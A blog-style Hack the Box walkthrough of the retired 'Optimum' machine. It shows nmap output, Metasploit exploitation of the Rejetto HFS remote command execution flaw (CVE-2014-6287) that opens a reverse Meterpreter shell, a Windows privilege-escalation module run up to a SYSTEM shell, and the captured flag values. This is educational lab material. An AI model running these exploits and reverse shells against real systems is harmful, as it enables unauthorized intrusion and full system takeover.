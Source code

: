 ```yaml
---
title: Optimum, Hack the Box CTF Walkthrough
description: Exploiting CVE-2014-6287, Rejetto HTTP File Server (HFS) 2.3.x Remote Command Execution
tag: CTF
image: /assets/img/posts/2021-03-04-Optimum-hack-the-box-walkthrough/Optimum.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Optimum is an easy level HTB challenge from the HTB archives. This challenge requires initial user access through a remote command execution vulnerability and local privilege escalation"
card: card-2
---
```


Optimum is a easy level retired CTF from Hack the Box. To root this machine, I gained initial access by exploiting a remote command execution vulnerability (CVE-2014-6287) and escalated privileges to root through a local windows privilege escalation vulnerability (CVE-2016-0099).  

## Enumeration

To start, I used nmap to enumerate open services and running ports.  The resulting output revealed the target server was running the HttpFileServer, version 2.3.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/OptimumRETIRED]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.8                                                                                           1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 20:01 EST
Nmap scan report for 10.10.10.8
Host is up (0.026s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.39 ms 10.10.14.1
2   27.77 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```  

## Vulnerability Identification  

Research into the HttpFileServer version 2.3 revealed its vulnerable to CVE-2014-6287, a remote command execution  vulnerability which has several public exploits available. One of these exploits is available in a metasploit module, so I launched metasploit and configured the necessary options.  

```bash
msf6 > search CVE-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Using URL: http://0.0.0.0:8081/IfzP0QI2SL
[*] Local IP: http://192.168.232.8:8081/IfzP0QI2SL
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /IfzP0QI2SL
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.8:49162) at 2021-03-04 20:09:00 -0500

[!] Tried to delete %TEMP%\OMHaX.vbs, unknown result



[*] Server stopped.

meterpreter > 
```   

## Locate User Flag  

Using the meterpreter shell, I located the user flag and read its contents.  

```bash
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-03-11 05:11:20 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```  

## Post Exploitation Enumeration    

The CVE-2014-6287 exploit opened the meterpreter shell as the kostas user. To read the contents of the Admin flag, I would need to escalate to SYSTEM privilege. First, I attempted the `getsystem` meterpreter command, but this failed. I started to gather additional details about the target, starting with the meterpreter `sysinfo` command.  

```bash
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```  

Researching for local privilege escalation vulnerabilities specific for Windows 2012 R2 (6.3 Build 9600) revealed CVE-2016-0099. Fortunately, this too has a metasploit module available. I configured the module and launched the exploit.   

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.13:4441 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2080
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PykxFdTyo5bVOiBbBCJ1ZoZo9QIdtpa6
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.13:4441 -> 10.10.10.8:49166) at 2021-03-04 20:41:02 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1

meterpreter > shell
```  

## Locate Root Flag  

Using the meterpreter `shell` command, I dropped into the windows cmd shell and searched manually for the root flag.   

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.899.729.920 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
C:\Users\Administrator\Desktop>
```